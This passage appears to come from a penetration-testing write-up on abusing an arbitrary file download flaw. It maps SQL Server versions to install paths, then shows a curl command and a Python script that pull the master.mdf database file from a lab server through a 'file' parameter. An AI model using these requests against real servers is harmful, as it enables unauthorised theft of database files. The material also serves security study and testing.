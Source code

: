 A good source of SQL Server build numbers can be found at [https://buildnumbers.wordpress.com/sqlserver/](https://buildnumbers.wordpress.com/sqlserver/). From this data, we can see that the major build numbers are as follows:

| Product Name    | Build Number |
|:---------------:|:------------:|
| SQL Server 2008 | 10.x         |
| SQL Server 2012 | 11.x         |
| SQL Server 2014 | 12.x         |
| SQL Server 2016 | 13.x         |
| SQL Server 2017 | 14.x         |

This gives us a maximum of 6 possible requests to make in order to fingerprint where the instance is stored, which will be one of the following:

* `C:\Program Files\Microsoft SQL Server\MSSQL.1`
* `C:\Program Files\Microsoft SQL Server\MSSQL10.SQLEXPRESS`
* `C:\Program Files\Microsoft SQL Server\MSSQL11.SQLEXPRESS`
* `C:\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS`
* `C:\Program Files\Microsoft SQL Server\MSSQL13.SQLEXPRESS`
* `C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS`

Due to the small number of requests required, it is easily fingerprinted manually. To do this, make a request to the `master.mdf` file, and if downloaded successfully, it should contain a number of standard stored procedures:

```shell_session
rastating:~$ curl 'http://10.2.0.130:8080/?file=C:\Program%20Files\Microsoft%20SQL%20Server\MSSQL11.SQLEXPRESS\MSSQL\Template%20Data\master.mdf' --output master.mdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 4096k  100 4096k    0     0   117M      0 --:--:-- --:--:-- --:--:--  117M
rastating:~$ strings master.mdf | grep -oP "\w{30,}" | head -n 4
sp_msupg_dropcatalogcomputedcols
sp_msupg_dosystabcatalogupgrades
sp_msupg_createcatalogcomputedcols
sp_msupg_recreatecatalogfaketables
```

Alternatively, if you'd like to automate the process, an example of how you may achieve this can be found below:

```python
import requests

paths = [
    'C:\Program Files\Microsoft SQL Server\MSSQL.1',
    'C:\Program Files\Microsoft SQL Server\MSSQL10.SQLEXPRESS',
    'C:\Program Files\Microsoft SQL Server\MSSQL11.SQLEXPRESS',
    'C:\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS',
    'C:\Program Files\Microsoft SQL Server\MSSQL13.SQLEXPRESS',
    'C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS'
]

for path in paths:
    print '[-] Checking {path}'.format(path=path)

    mdf_path = '{base}\MSSQL\Template Data\master.mdf'.format(base=path)
    res = requests.get('http://10.2.0.130:8080/', params={ 'file': mdf_path })
    if res.status_code != 500:
        print '[+] Found valid path: {path}'.format(path=path)
        break
```
